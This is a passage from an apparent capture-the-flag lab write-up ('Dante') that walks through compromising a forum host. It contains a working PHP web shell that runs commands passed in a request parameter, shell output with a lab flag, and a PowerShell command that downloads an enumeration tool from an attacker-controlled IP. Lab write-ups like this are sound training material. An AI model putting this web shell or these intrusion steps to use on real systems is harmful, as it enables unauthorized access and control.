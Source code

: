 Here I can find two credentials from the table named `user` : 
- `admin` : `admin`
- `john` : `12345`

Let's try login with the found credentials.
The credential for `admin` works, and I was redirected to the following page;

![](attachments/dante_20.png)

##### Shell as `gerald` on WS01

First, let's google if there's any exploit related to this web.
Using the keyword like "Technical, Discussion, Forum..." I found the following :
https://www.exploit-db.com/exploits/48512

The name of the exploit "# Online Discussion Forum Site 1.0 - Remote Code Execution" is a little different from the page's name, but let's give it a shot.

Following the instruction on exploit-db, I signed up with a new account with `shell.php` file as follows;

shell.php :

```php
<?php
$command = shell_exec($_REQUEST['cmd']);
echo $command;
?>
```

![](attachments/dante_21.png)

Then, when I fetched `/ups` page, I can see that `shell.php` is uploaded there.

![](attachments/dante_22.png)

Through this, I can run linux commands.
This is **File Upload Vulnerability causing RCE**.

```bash
URL : http://172.16.1.13/discuss/ups/shell.php

gerald@DANTE-WS01:C:\Users\gerald\Desktop# whoami
dante-ws01\gerald

gerald@DANTE-WS01:C:\Users\gerald\Desktop# type flag.txt
DANTE{l355_t4lk_m04r_l15tening}
```

Then, I got a shell!

##### Enumeration on WS01

Let's run `winpeas`.
First, let's upload `winPEASx64.exe`.

```bash
gerald@DANTE-WS01:C:\Users\gerald\Documents# powershell -c "Invoke-WebRequest http://10.10.14.3:8888/winPEASx64.exe -OutFile winPEASx64.exe"
```
